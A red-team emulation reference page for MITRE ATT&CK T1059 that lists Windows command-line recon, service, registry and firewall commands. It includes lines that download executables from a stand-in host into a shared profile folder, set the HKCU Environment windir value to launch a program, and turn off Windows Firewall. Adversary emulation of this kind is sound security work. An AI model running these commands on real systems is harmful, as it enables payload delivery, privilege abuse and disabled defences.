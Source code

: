 # Command-Line Interface

---
* **ID**: T1059
* **Source**: <https://attack.mitre.org/techniques/T1059/>
---

# Details

## Common commands in Windows CLI
### System Information
* Check system info: `systeminfo`
* Check IP info: `ipconfig /all`
* Check current user: `whoami`
* Check host name: `hostname`
* Check local users: `net user`
* Check local groups: `net localgroup`
* Check all the networked devices: `net view`
* Check local shares: `net share`
* Check process info: `tasklist`

### File
* Search local files: `cd c:\ & dir /b /s <file_name>`
* Check file content: `type <file_path>`
* Download a remote file:
  * BITSAdmin: `bitsadmin.exe /transfer txt /download /priority normal http://example.com/example.exe %ALLUSERSPROFILE%\example.exe`
  * PowerShell: `powershell Invoke-WebRequest -Uri "http://example.com/example.exe" -OutFile %ALLUSERSPROFILE%\example.exe`

### Service
* Create a service: `sc create ExampleService binPath= "F:\Delete\SampleSolution\Sample\WindowsServiceExample\bin\Debug\WindowsServiceExample.exe"`
* Start a service: `sc start ExampleService`
* Stop a service: `sc stop ExampleService`
* Delete a service: `sc delete ExampleService`

### Scheduled Task
* Create/run/delete a scheduled task: see [Scheduled Task](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1053/T1053.md)

### Registry
* Add a registry key: `reg add HKCU\Environment /v windir /d "calc.exe" /f`
* Delete a registry key: `reg delete HKCU\Environment /v windir /f`

### Firewall
* Check the status of Windows Firewall: `netsh advfirewall show allprofiles`
* Turn on Windows Firewall: `netsh advfirewall set allprofiles state on`
* Turn off Windows Firewall: `netsh advfirewall set allprofiles state off`

# References

* <https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/windows-commands>
* <https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1053/T1053.md>
